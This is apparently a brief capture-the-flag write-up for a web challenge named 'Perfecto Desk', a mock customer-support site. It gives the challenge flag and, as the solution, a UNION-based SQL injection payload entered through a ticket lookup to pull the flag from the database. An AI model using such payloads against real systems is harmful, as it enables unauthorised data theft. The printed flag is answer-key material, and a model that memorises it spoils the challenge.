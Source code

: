 # Web: Perfecto Desk

- **Skapare:** Calle Svensson
- **Poäng:** 150
- **Antal lösningar:** 9

## Beskrivning

We run the best customer support desk in the world with an absolutely perfect track record.

Check it out at: URL

## Flag

`SSM{mayb3_n0t_dat_perfect0_4fter_ALL}`

## Lösning

Check ticket -> `' UNION SELECT 1,(SELECT flag FROM flag),2,3; #`

